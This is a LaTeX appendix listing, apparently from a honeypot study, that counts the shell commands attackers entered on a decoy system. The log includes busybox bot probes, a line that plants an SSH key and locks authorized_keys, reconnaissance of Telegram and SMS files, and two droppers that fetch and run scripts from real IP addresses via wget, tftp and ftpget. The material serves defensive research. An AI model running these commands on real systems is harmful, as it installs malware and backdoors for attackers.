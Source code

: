 \label{annex:log-persistence2}  
\begin{lstlisting}[language=bash,label={lst:log-decoy},caption={Commands Input and Occurrences}]  
uname -s -v -n -r -m;641
sh;70
shell;70
system;68
enable;68
/bin/busybox SATORI;53
"/bin/busybox cat /bin/busybox || while read i; do /bin/busybox echo ; done < /bin/busybox || /bin/busybox dd if=/bin/busybox bs=22 count=1";53
uname -s -m;13
/bin/busybox cat /proc/self/exe || cat /proc/self/exe;9
"ping; sh";9
"chmod +x clean.sh; sh clean.sh; rm -rf clean.sh; chmod +x setup.sh; sh setup.sh; rm -rf setup.sh; mkdir -p ~/.ssh; chattr -ia ~/.ssh/authorized_keys; echo ""ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqHrvnL6l7rT/mt1AdgdY9tC1GPK216q0q/7neNVqm7AgvfJIM3ZKniGC3S5x6KOEApk+83GM4IKjCPfq007SvT07qh9AscVxegv66I5yuZTEaDAG6cPXxg3/0oXHTOTvxelgbRrMzfU5SEDAEi8+ByKMefE+pDVALgSTBYhol96hu1GthAMtPAFahqxrvaRR4nL4ijxOsmSLREoAb1lxiX7yvoYLT45/1c5dJdrJrQ60uKyieQ6FieWpO2xF6tzfdmHbiVdSmdw0BiCRwe+fuknZYQxIC1owAj2p5bc+nzVTi3mtBEk9rGpgBnJ1hcEUslEf/zevIcX8+6H7kUMRr rsa-key-20230629"" > ~/.ssh/authorized_keys; chattr +ai ~/.ssh/authorized_keys; uname -a; echo -e ""\x61\x75\x74\x68\x5F\x6F\x6B\x0A""";5
uname -s -v -n -r;5
exit;4
uname -a;4
ifconfig;4
/ip cloud print;4
locate D877F783D5D3EF8Cs;4
ls -la ~/.local/share/TelegramDesktop/tdata /home/*/.local/share/TelegramDesktop/tdata /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*;4
ps | grep '[Mm]iner';4
ps -ef | grep '[Mm]iner';4
echo Hi | cat -n;4
cat /proc/cpuinfo;4
"ping ;sh";4
/bin/busybox cat /proc/self/exe || cat /bin/echo;3
"dd bs=52 count=1 if=.s || cat .s || while read i; do echo $i; done < .s";2
"tftp; wget; /bin/busybox BJGRG";1
"cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox BJGRG";1
cd /home/phil/;1
"cat /proc/mounts; /bin/busybox BJGRG";1
./exploit.sh;1
"cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://176.65.148.194/selfrep.sh; chmod 777 selfrep.sh; sh selfrep.sh; tftp 176.65.148.194 -c get selfrep1.sh; chmod 777 selfrep1.sh; sh selfrep1.sh; tftp -r selfrep2.sh -g 176.65.148.194; chmod 777 selfrep2.sh; sh selfrep2.sh; ftpget -v -u anonymous -p anonymous -P 21 176.65.148.194 selfrep1.sh selfrep1.sh; sh selfrep1.sh; rm -rf selfrep.sh selfrep1.sh selfrep2.sh selfrep1.sh";1
"cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://87.121.84.163/telnet.sh; chmod 777 telnet.sh; sh telnet.sh; tftp 87.121.84.163 -c get telnet1.sh; chmod 777 telnet1.sh; sh telnet1.sh; tftp -r telnet2.sh -g 87.121.84.163; chmod 777 telnet2.sh; sh telnet2.sh; ftpget -v -u anonymous -p anonymous -P 21 87.121.84.163 telnet1.sh telnet1.sh; sh telnet1.sh; rm -rf telnet.sh telnet1.sh telnet2.sh telnet1.sh";1

\end{lstlisting}
